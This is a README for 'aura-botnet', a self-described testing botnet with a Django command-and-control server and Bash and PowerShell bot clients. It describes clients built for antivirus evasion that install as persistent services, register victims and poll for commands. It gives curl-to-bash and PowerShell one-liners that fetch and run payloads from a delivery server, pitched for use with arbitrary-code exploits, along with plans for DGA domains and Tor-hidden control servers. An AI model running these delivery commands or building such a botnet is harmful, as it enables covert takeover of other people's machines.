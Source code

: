 # aura-botnet

<h2>This repo is for testing purposes only. This is not meant to be
implemented in any real world applications except for demonstrations.</h2>

C&C Server
---
The botnet's central C&C server utilizes Django as the
backend because of its portability. It is currently configured with a simple
setup for mysql but can easily be configured for sqlite or postgresql thanks to
Django. The current configuration for the database can be changed in the
*settings.py* file under django-server/aura. You would, of course, need to setup
 the database on your machine. The admin user "aura" can be changed and
 configured using *manage.py*. The default admin password is "testing123".

Bot Clients
---
The clients are written in Bash and Powershell for simplicity and increased
chance of AV evasion. The script simply needs to be run in the same folder as
the other components or installed via web delivery. It will then create a file
containing random data which will then be hashed each time the client runs to
authenticate with the C&C server. It will then install all the files and
initialize the system service or task. Lastly, system information is sent to the
C&C server to register the new bot and everything will installed with the
privileges of the current user.

The clients periodically communicate with a specified server using POST requests
to receive a command. Commands can be configured on the C&C server for
bot groups that are defined by operating system and user privilege. This is
specified in django-server/groups.json. You can also assign commands to
individual bots and set default commands. Each command can be given a start
time and end time. These can easily be managed through the Django shell or admin
console located at http://your-django-server:portnumber/admin

Client Web Delivery
---
The *static* folder contains files to be served by a web server -- preferably
an nginx server running on a different port or host as your Django server --
It contains the packaged payloads and scripts that can be easily executed. The
simplicity of it makes it easy to integrate with exploits that run arbitrary
code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/ | bash
```
or the following in Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/linux/ | powershell
```

Misc.
---
Because this is for testing purposes, the C&C server needs to be
hard-coded into client and web delivery files. It is currently set to
localhost on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered. I don't
wish to spend money for a small project. I do hope to implement a system that
can turn certain bots into "nodes", or disposable command and control servers,
at some point in time.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

<b>Future Feature Considerations</b>
- Create system to allow for oneshot commands
- Implement compatibility with running C&C as a hidden Tor service
- Design system to make certain bots into node servers that act as disposable
command and control servers
- Create clients for mobile devices
